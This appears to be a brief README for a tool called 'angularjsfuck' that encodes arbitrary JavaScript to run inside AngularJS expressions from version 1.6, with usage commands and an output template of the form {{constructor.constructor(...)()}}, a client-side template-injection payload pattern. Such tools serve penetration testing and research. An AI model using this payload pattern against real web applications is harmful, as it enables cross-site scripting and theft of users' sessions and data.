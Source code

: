 # angularjsfuck

The goals is to permit the execution of any javascript code inside angularjs expressions starting from angular 1.6

 
Usage:
```
npm install
node index.js <javascript expression> [--clean] [--hard]
```
Output:
```
{{constructor.constructor(<encoded javascript expression>)()}}

```
